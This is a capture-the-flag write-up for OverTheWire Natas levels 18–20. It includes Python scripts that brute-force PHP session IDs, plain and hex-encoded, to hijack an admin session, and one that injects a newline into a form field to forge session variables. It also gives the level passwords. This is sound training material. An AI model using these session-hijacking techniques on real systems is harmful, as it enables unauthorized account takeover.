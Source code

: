 
2024-07-20 16:35

Source: #web #py #natas 

Tags: [[PHP]]
## Natas 18 

- PHP uses one of two methods to keep track of sessions. If cookies are enabled, like in our case, it uses them.
- If cookies are disabled, it uses the URL.
here in the source we are given `maxid` as `640`

```
import requests
username = 'natas18'
password = '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ'

url = 'http://natas18.natas.labs.overthewire.org/'
session = requests.Session()

for session_id in range(1,641):
    response = session.get(url,cookies = {"PHPSESSID": str(session_id)}, auth = (username,password))

    content = response.text

    if("You are an admin" in content):
        print("Got it!",session_id)
        print(content)
        break
    else:
        print("trying", session_id)
```
### TLDR
we gotta brute force all the possible session id's ranging from 1 to 640 and one of the session id is gotta be the admin session id

## Natas19

source code is similar to natas 18 the difference is that the `phpsessid` is  encoded in hex and the username is appended to the session id before encoding the whole .
eg. `45-admin` is encoded and used as the session id 

```
import requests
username = 'natas19'
password = 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr'

url = 'http://natas19.natas.labs.overthewire.org/'
session = requests.Session()

for i in range(641):
    print({"PHPSESSID" : str("%d-admin" % i).encode('UTF-8').hex()})

    response= session.get(url,cookies = {"PHPSESSID" : str("%d-admin" % i).encode('UTF-8').hex()},auth = (username,password))

    if("You are an admin" in response.text):
        print("got it", i)
        print(response.text)
        break
```
### TLDR

- we run a for loop ranging from 1 to 640 and we apply the loop in `<number>-admin` 
- where `<number>` is cycled through and the whole thing is encoded in hex 
- one of these encoded session id is gotta be the admin session id.
## Natas 20

- here 2 functions are defined namely read and write 
- `read` function 
	- checks if a file path exists corresponding to a session id if not then creates one 
	- it reads the contents from the file creating an array and then process the data bit by bit using the `explode` function
- `write` function 
	- works with the same file name as read, it uses simply writes the output from the server to a file 
Whole code is operating in a session thus we add more code to existing code

```
import requests
username = 'natas20'
password = 'p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw'

url = 'http://natas20.natas.labs.overthewire.org/?debug=true'
session = requests.Session()

response= session.post(url,auth = (username,password))
print(response.text)
print("="*80)
#create a session id 

response= session.post(url,data={"name":"bmth\nadmin 1"},auth = (username,password))
print(response.text)
print("="*80)
#exploiting the explode functionality we add a new line and change admin to 1

response= session.post(url,auth = (username,password))
print(response.text)
print("="*80)
#this is just to check if we are still admin or not 
```
they're just splitting up variables line by line and with a space in between each thing we could just as easily add a new line and change whatever session variables we really wanted to
### References
https://www.youtube.com/watch?v=C9yxUTQLbRI

phpsessid - https://stackoverflow.com/questions/1370951/what-is-phpsessid